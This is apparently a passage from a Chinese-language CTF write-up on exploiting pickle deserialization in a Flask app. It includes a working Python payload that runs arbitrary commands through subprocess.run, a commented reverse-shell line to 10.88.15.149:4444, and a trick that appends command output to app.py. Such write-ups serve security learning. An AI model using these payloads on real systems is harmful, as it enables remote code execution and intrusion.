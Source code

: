 ```python
        return jsonify({"message": 'You are not admin!'})
    return "Welcome Admin"


@app.route('/src')
def src():
    return  open("app.py", "r",encoding="utf-8").read()

if __name__ == '__main__':
    app.run(host='0.0.0.0', debug=False, port=5000)
```

看起来最大的突破点还是反序列化; 注意这里虽然进行了关键词过滤, 但是主要都是过滤的字符串, 没有 `[]'"()` 这类特殊符号;

## pickle 反序列化

接下来就是构造 payload

### 构造 payload

首先注意到 `subprocess` 这个包没有被过滤, 这个包下有 `run`, `check_output` 等函数是可以执行任意命令的, 构造大致如下 python 脚本:

```python
import pickle
import base64
import subprocess



class Exploit:
    def __reduce__(self):
        #return (subprocess.run, (["bash", "-i", ">&", "/dev/tcp/10.88.15.149/4444", "0>&1"],), {"shell": True})
        return (subprocess.run, (["bash", "-c","指令"],), {"shell": True})

# 使用 pickle 协议 3 序列化 Exploit
serialized = pickle.dumps(Exploit(), protocol=3)
print("pickled: ", serialized)
# Base64 编码
b64_encoded = base64.b64encode(serialized).decode()

# 输出编码后的字符串
print(b64_encoded)
```

### 解法 1: 附加在 app.py 后

直接用 `cat` 等指令是没有回显的, 注意到刚刚 `/src` 目录实际上输出的是 `app.py` 目录的文件, 直接把指令结果附加到app.py后面即可:

```python
return (subprocess.run, (["bash", "-c","ls / >> app.py"],), {"shell": True})
```
